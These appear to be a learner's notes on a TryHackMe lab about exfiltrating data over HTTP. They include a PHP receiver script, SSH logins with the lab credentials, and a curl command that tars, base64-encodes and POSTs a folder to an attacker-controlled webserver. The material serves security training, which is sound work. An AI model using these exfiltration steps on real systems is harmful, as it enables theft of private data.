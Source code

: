 	- Note that this is just a high level diagram and doesn't exactly map to the actual network topology we have in this room.

- Remember, when using HTTP protocol, any data sent is in cleartext.
- We will be using other techniques (`tar` and `base64`) to change the data's string format so that it wouldn't be in a human-readable format.

##### 1. Prepare a webserver with a data handler for this task. Use this php snippet:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

	- Handles POST requests via 'file' parameter and stores the received data in /tmp directory as 'http.bs64' as filename.
	- Note that this is already activated at "web.thm.com".
	- The data transferred via POST request is sent to /tmp and is the webserver's responsibility.

##### 2. From the `JumpBox` machine, connect to the `victim1.thm.com` machine via SSH to exfiltrate the required data over the HTTP protocol. This connection will act as the Agent. Use this credentials `thm:tryhackme`:
`thm@jump-box:~$ ssh thm@victim1.thm.com`

OR in `AttackBox`:
`$ ssh thm@10.10.167.168 -p 2022`

	- Note that the only reason you as the attacker can probably do this is because the firewall allows access to 'victim1.thm.com' to SSH into it. The firewall most likely do some kind of traffic redirection.

##### 3. Transfer the folder's content stored in `/home/thm/task6` to another machine over the HTTP protocol.
<u>From the Agent's perspective</u>:
`$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php`

	Breakdown:
	- "--data" : allows to do POST request with 'curl' command. Also, the variable to be passed with POST request is 'file' variable.
	- The link at the end is the destination for this POST request.

##### 4. Log into the webserver `web.thm.com` and check the `/tmp` directory if we have successfully transferred the required data.
- Remember that `web.thm.com` is on the same network as the `victim1.thm.com` and there is no open port that allows us to connect with SSH to the `web.thm.com` when using AttackBox.

`thm@victim1:~$ ssh thm@web.thm.com`
`thm@web-thm:$ cd /tmp; ls`
![](/assets/img/Pasted image 20230109005323.png)

